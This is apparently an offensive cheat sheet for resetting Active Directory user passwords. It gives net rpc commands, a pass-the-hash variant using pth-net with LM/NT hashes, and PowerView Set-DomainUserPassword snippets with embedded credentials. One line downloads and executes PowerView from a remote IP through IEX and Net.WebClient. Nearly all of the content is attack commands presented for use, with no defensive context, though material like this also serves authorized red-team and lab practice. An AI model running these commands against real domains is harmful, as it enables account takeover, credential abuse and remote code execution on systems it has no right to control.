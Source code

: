 ## If password is known:

````bash
net rpc password jamie -U domain.local/john -S 192.168.210.10
net rpc password <target user> -U <domain/you_user> -S <dc>
````

## PTH:
```bash
pth-net rpc password <target user> "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## Powershell from another account if password is known:
````powershell
$SecPassword = ConvertTo-SecureString '!QAZ2wsx' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('zsm\marcus', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred
````

## Powershell if logged into account:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  
$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 
Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword   
```
